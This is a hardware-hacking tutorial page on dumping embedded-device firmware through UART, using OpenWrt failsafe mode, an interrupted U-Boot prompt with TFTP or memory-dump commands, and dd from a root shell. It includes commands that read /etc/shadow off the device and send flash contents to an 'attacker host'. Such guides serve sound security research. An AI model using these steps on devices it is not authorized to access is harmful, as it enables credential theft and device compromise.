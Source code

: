 # Extract Firmware using UART

#### At this point you should have:

* Understand what UART does (if not check: [UART](./))
* Identified UART pins (if not check:[ Identify UART](uart-from-start-to-finish.md))
* Got a working connection to UART (if not check: [Connect to UART](connect-to-uart.md))

#### Not all UART interfaces are the same. Infact manufacturers could output actually anything over it. So there is no guarante you can abuse UART to dump firmware or get a shell on the device. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F`  will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

Depending on your device you may have to mount the correct filesystem first:

* Run `ls /dev` or `blkid` to locate storage devices and partitions (e.g., `/dev/sda1`, `/dev/mmcblk0p2`).
* Use these commands to first create a mount point and then mound the filesystem:
  * &#x20;`mkdir /mnt/filesystem`
  * `mount /dev/<root_partition> /mnt/filesystem`
* Now you may access the filesystem under `/mnt/filesystem`

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):&#x20;
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:&#x20;
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. We can also dump it in the console: (CAN BE SLOW!)
   1. Read data:
      1. `md.b <offset to read from> <number of bytes to read>`
      2. example: `md.b 0x82000000 0x1000000`
   2. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
3. If we want to dump from an MMC:
   1.  ```bash
       #list available MMCs
       mmc list
       # select an MMC to dump (we have to select one else next commands fail)
       mmc dev 0
       #get info of mmc
       mmc info
       # get partition to see which partition we wanna dump (e.g. rootfs)
       mmc part
       # search in partition
       ext4ls mmc <device>:<partition> <path>
       ext4ls mmc 1:8 /home/root
       # read file from MMC to RAM
       ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
       ext4load mmc 1:8 0xC6200000 /etc/shadow
       # show the file from memory
       md.b <memory_address in ram> <size>
       md.b 0xC6200000 0x43C
       ```

       Tool that does these steps automatically:[ https://github.com/nmatt0/firmwaretools](https://github.com/nmatt0/firmwaretools)
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "[Analyze Firmware](extract-firmware-using-uart.md#analyze-firmware)" chapter

## Resources

[https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart)\
[https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)
